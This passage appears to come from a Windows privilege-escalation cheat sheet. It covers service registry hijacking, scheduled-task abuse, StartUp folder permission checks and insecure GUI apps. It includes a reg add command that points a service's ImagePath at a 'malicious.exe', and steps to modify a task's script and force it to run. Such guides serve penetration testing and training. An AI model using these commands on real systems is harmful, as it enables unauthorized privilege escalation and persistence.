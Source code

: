```
sc qc regservice
```

{% code overflow="wrap" %}
```
reg add HKLM\SYSTEM\CurrentControlSet\services\regservice /v ImagePath /t REG_EXPAND_SZ /d C:\path\to\malicious.exe /f
```
{% endcode %}

## Test For Scheduled Tasks

_Useful to have time_

```
Get-Date
```

{% code overflow="wrap" %}
```
schtasks /query /fo list /v | findstr /c:"User:" /c:"Run:" /c:"TaskName:" /c:"Start Time:" /c:"Last Run Time:" /c:"Start Time:"
```
{% endcode %}

```
schtasks /query /tn \path\to\sometask /fo list /v
```

```
icacls C:\Path\to\taskExecutable
```

_Read code if non EXE_

```
type C:\Path\to\script
```

_Replace / modify content for code execution_

_Force execution or wait for task to run_

```
schtasks /run /tn sometask
```

## Test For StartUp Apps

{% code overflow="wrap" %}
```
.\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```
{% endcode %}

## Test For Insecure GUI Apps

_Search and run GUI Apps as they may be ran as a privileged user_
